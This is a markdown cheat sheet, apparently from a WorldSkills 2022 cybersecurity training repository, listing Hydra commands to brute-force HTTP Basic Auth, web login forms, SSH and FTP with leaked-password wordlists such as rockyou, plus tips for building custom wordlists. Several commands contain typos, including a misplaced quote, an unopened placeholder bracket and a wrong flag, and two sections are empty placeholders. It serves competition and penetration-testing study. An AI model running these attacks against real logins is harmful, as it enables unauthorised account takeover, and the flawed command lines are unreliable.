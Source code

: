 <[Back to Main Page](https://github.com/ChristopherFitzsimons/WorldSkills2022Cybersecurity)

# Login Brue Forcing
Creared by Bujitha Ponsuge

## Brute Forcing Login Forms

# Commands
The Following are commands that you can use with Hydra to brute force an Basic HTTP Auth Form

## Brute Forcing Basic HTTP Auth Forms Using Default Credentials using Hydra
|	Options		|	Description	|
|-----------|:-----------|
|<font color=red>-C </font>|Allows to use Combined Wordlists|
|<font color=red>http-get</font>|	This is the Request Method						|
|<font color=red>/</font> | The Target Path

Combined Wordlist

```console
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <Target IP> -s <PORT> http-get /
```

Username/Password Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f Target IP> -s <PORT> http-get /
```

Username Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -p <PASSWORD> -u -f Target IP> -s <PORT> http-get /
```

Password Brute Force

```console
hydra -l <USERNAME> -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f Target IP> -s <PORT> http-get /
```

# Web Forms/Login Forms Brute Forcing using **Hydra**

Following Commands are usefull to brute force Login Forms (Admin Panels etc..) using the Hydra Module **http[s]-post-form**

> To Determine if the **http[s]-post-form** is the correct module to use. Type something into the login form and check if the URL has any of the inputs that you put in or if the URL change in anyway, If the URL does not change then the Web Application will be using an POST form. If the URL change and or have any of our inputs then its an GET form.
> 

Combined Wordlist

```console
hydra -c /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```

Username/Password Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```

Pasword Brute Force

> NOTE: Try default usernames that are often used in admin pannels.
>  admin,administrator,wpadmin, root etc.

```console
hydra -l admin -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```
# PLACEHOLDER

# Usefull Commands
The following commands can help if you want to create a personalised wordlist


```console
sed -ri '/^.{,7}$/d' file.txt
```
This command will remove anything that is shorter than eight characters 
```console
sed -ri '/[!-/:-@\[-`\{-~]+/!d' file.txt
```
This command will remove anything that does not contain special characters
```console
sed -ri '/[0-9]+/!d' file.txt
```
This will remove anything that has no numbres

```console
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy Name-of-target > file.txt
```

This tool can be used to create a custom username wordlist, using an name of an user.

# Service Authentication Brute Forcing (SSH & FTP)


```console
hydra -L username-list -P password-list -u -f ssh://<TargetIP:Port> -t 4 
```

```console
hydra -l username-list -P password-list ftp://<FTPIP>
```

# PLACEHOLDER

